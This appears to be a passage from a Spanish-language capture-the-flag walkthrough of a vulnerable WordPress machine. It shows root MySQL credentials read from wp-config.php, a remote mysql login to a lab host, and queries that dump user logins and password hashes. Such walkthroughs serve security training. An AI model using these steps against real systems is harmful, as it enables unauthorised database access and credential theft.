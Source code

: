 ```php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');
```

Tenemos nombre de DB, usuario y password. Casualmente el servicio de MySQL tiene el servicio abierto jejeje.

>**``mysql -uroot -pplbkac -h 10.0.0.127``**

```sql
MySQL [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.000 sec)

MySQL [wordpress]> select user_login from wp_users; select user_pass from wp_users;
+------------+
| user_login |
+------------+
| Abby       |
| barry      |
| Dave       |
| Elly       |
| garry      |
| harry      |
| heather    |
| John       |
| kathy      |
| Pam        |
| Peter      |
| scott      |
| Simon      |
| tim        |
| Vicki      |
| ZOE        |
+------------+
16 rows in set (0.001 sec)

+------------------------------------+
| user_pass                          |
+------------------------------------+
| $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
```